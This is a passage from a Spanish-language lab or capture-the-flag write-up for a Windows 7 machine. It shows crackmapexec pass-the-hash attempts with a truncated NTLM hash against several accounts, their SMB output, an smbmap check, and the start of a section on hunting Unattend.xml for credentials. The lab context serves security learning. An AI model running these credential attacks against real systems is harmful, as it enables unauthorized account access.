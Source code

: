 <br>

Comprobemos el **Hash NTLM** con los usuarios mostrados con **crackmapexec**, para ver si alguno es válido:
```bash
crackmapexec smb 192.168.1.10 -u 'Administrator' -H 'f8d3f...'
SMB         192.168.1.10 445    MICROCHOFT       [*] Windows 7 Home Basic 7601 Service Pack 1 x64 (name:MICROCHOFT) (domain:Microchoft) (signing:False) (SMBv1:True)
SMB         192.168.1.10 445    MICROCHOFT       [-] Microchoft\Administrator:f8d3f... STATUS_ACCOUNT_DISABLED 
 
crackmapexec smb 192.168.1.10 -u 'Admin' -H 'f8d3f...'
SMB         192.168.1.10 445    MICROCHOFT       [*] Windows 7 Home Basic 7601 Service Pack 1 x64 (name:MICROCHOFT) (domain:Microchoft) (signing:False) (SMBv1:True)
SMB         192.168.1.10 445    MICROCHOFT       [-] Microchoft\Admin:f8d3f... STATUS_PASSWORD_EXPIRED
 
crackmapexec smb 192.168.1.10 -u 'Lola' -H 'f8d3f...'
SMB         192.168.1.10 445    MICROCHOFT       [*] Windows 7 Home Basic 7601 Service Pack 1 x64 (name:MICROCHOFT) (domain:Microchoft) (signing:False) (SMBv1:True)
SMB         192.168.1.10 445    MICROCHOFT       [+] Microchoft\Lola:f8d3f...
```
Parece que solamente funciona con el **usuario Lola**.

Comprobémoslo con **smbmap**:
```bash
smbmap -u 'Lola' -p 'f8d3f...' -H 192.168.1.10
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
[*] Closed 1 connections
```
No mostró nada, por lo que este hash no sirve para nada.

<h2 id="Unattend">Buscando y Leyendo Archivo Unattend.xml</h2>

¿Qué es el archivo **Unattend.xml**?

| **Archivo Unattend.xml** |
|:-----------:|
| *unattend.xml es un archivo de configuración utilizado en sistemas operativos Windows para automatizar el proceso de instalación y configuración de Windows, también conocido como una instalación desatendida. Este archivo es comúnmente empleado en entornos corporativos o en despliegues masivos para estandarizar configuraciones y ahorrar tiempo al eliminar la necesidad de intervención manual durante la instalación.* |
